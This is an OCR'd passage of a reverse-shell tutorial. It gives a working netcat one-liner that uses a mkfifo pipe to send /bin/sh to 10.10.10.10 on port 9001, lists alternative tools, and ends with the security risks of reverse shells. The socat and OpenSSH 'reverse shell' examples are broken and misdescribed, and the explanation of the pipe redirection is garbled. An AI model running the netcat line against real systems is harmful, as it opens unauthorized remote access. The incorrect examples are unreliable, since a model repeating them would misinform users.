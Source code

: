 - `-l` Listen
- `-v` verbose

**Example Reverse Shell using Netcat without -e**

---------------------------

Here is an example of a reverse shell using Netcat without the `-e` option:

```
mkfifo /tmp/p; nc 10.10.10.10 9001 0</tmp/p | /bin/sh > /tmp/p; rm /tmp/p;
```

- `mkfifo` is creates a FIFO (first in first out) names pipe

- `0` is std input and by using `<` symbol, the contents from `/tmp/p` are passed as input for the `nc`

- `>` is making the `/bin/sh` as input for `/tmp/p`. In this case, `/tmp/p` contains `/bin/sh`.
- And at last remove the named pipe.

**Using Other Tools**

-----------------

Other tools that can be used for reverse shells include:

1. `socat`
2. OpenSSH
3. nc (System V)
4. ngrok

**Example Reverse Shell using Socat**

---------------------------

Here is an example of a reverse shell using Socat:

```sh
socat -l 80 -
```

- `-l` Listen

**Example Reverse Shell using OpenSSH**

---------------------------

Here is an example of a reverse shell using OpenSSH:

```sh
ssh -e /bin/sh <IP> <PORT>
```

- `-e` filename to execute after connect

**Security Implications**

------------------------

Reverse shells can have significant security implications, including:

1. Unauthorized access to systems
2. Escalation of privileges
3. Data theft or modification
4. Denial of service

